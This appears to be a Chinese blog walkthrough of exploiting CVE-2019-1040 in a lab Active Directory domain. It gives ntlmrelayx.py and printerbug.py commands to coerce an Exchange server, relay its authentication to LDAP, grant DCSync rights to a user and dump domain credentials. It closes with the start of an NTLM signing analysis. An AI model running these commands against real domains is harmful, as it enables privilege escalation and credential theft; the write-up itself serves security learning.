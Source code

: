 我们使用qt01  
账号进行DCSync  
时是失败的，因为权限不够。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fKibP8KbFpqooibyC7Aknu4mRmLGabniauFAUPqNImpSlRGynzjap6fzSBnWHSFO1sceU0x7SFnXiccfqeNLex7Cgg/640?wx_fmt=png&from=appmsg "")  
  
1  
、在攻击机中我们使用ntlmrelayx.py  
进行监听，并进行relay  
。给qt01  
用户添加DCSync  
权限。  
  
ntlmrelayx.py --remove-mic --escalate-user qt01 -t ldap://192.168.190.46 -smb2support --delegate-access  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fKibP8KbFpqooibyC7Aknu4mRmLGabniauFjfLokgodiaibbfCuM2MUZazzeWpqdM2MNER2KyYoXeUpS8GFH4UMKzcQ/640?wx_fmt=png&from=appmsg "")  
  
2  
、使用打印机漏洞，让exchange  
向我们进行访问，可以使用exe  
或者py  
，根据自己的实际情况来定。  
  
printerbug.py wanliu1.com/qt:qt@user123@192.168.190.146 192.168.192.194  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fKibP8KbFpqooibyC7Aknu4mRmLGabniauF4ibDAylQeia6ZStGKvM2ibOyZZBfHj4HIibRuibmdo1wWp2RQE5vjn8hEtw/640?wx_fmt=png&from=appmsg "")  
  
3  
、收到请求可以看到添加成功。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fKibP8KbFpqooibyC7Aknu4mRmLGabniauFe3pDIvIM1Tjy1tWVt4xy1gTyBfKicOlMNKbscxRTh95kgRJs3l4hI8Q/640?wx_fmt=png&from=appmsg "")  
  
4  
、使用DCSync  
进行利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fKibP8KbFpqooibyC7Aknu4mRmLGabniauFEBp7QudLEQNMAoTksfhWXia101zDmy65lryiaDE5ic5MntBX1ZL6iad2eA/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2019-1040漏洞分析**  
  
  
  
[Ntlm](https://mp.weixin.qq.com/s?__biz=MzU0MjMwMTkxNA==&mid=2247483813&idx=1&sn=e1856fb5a8c3ca33945f30bfb59efea0&scene=21#wechat_redirect)  
  
   
协议原理在"  
清河六点下班"  
公众号文章中介绍过了，如果没了解过NTLM  
协议原理的小伙伴可以看一下。  
  
  
我们首先看一下哪些协议是需要签名的：  
  
SMB  
：双方有一方的 Signing required   
为 1   
时，启用签名。  
  